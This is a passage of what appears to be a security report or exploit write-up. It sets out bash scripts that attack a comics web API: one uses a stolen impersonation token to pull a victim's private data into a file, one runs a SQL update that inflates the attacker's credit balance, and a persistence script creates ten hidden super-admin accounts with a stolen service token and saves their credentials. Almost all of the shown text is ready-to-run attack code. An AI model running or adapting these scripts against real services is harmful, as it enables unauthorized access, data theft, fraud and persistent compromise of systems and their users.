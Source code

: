 ```bash

echo "Impersonation token: ${IMPERSONATE_TOKEN}"

# Test 6: Access victim's private data
curl -s -X GET "${TARGET_API}/api/comics" \
  -H "x-admin-impersonation-token: ${IMPERSONATE_TOKEN}" \
  > victim_comics.json

echo "[+] Exfiltrated victim's comics to victim_comics.json"

# Test 7: Modify database directly (if service token allows)
curl -X POST "${TARGET_API}/api/admin/database/query" \
  -H "x-admin-service-token: ${STOLEN_TOKEN}" \
  -H "Content-Type: application/json" \
  -d '{
    "query": "UPDATE user_credits SET panel_balance = 999999 WHERE user_id = '\''${ATTACKER_USER_ID}'\''"
  }'
```

**Step 5: Persistence via Service Token**
```bash
#!/bin/bash
# maintain_persistence.sh - Keep access even after token rotation

STOLEN_TOKEN="original_token"
TARGET_API="https://api.example.com"
PERSISTENCE_USER="persistence@evil.com"

# Create multiple backup admin accounts
for i in {1..10}; do
  BACKUP_ADMIN="backup-admin-${i}@tempmail.com"
  BACKUP_ID=$(uuidgen)
  
  echo "[+] Creating backup admin: ${BACKUP_ADMIN}"
  
  # Register as normal user first
  curl -X POST "${TARGET_API}/auth/register" \
    -H "Content-Type: application/json" \
    -d "{\"email\":\"${BACKUP_ADMIN}\",\"password\":\"BackupPass${i}!\"}"
  
  # Promote to admin using stolen service token
  curl -X POST "${TARGET_API}/api/admin/users/${BACKUP_ID}/promote" \
    -H "x-admin-service-token: ${STOLEN_TOKEN}" \
    -H "Content-Type: application/json" \
    -d '{"roles": ["super_admin"], "permissions": ["manage_admins"]}'
  
  # Store credentials
  echo "${BACKUP_ADMIN}:BackupPass${i}!" >> backup_admins.txt
done

echo "[+] Created 10 backup admin accounts for persistence"
echo "[+] Credentials saved to backup_admins.txt"
```

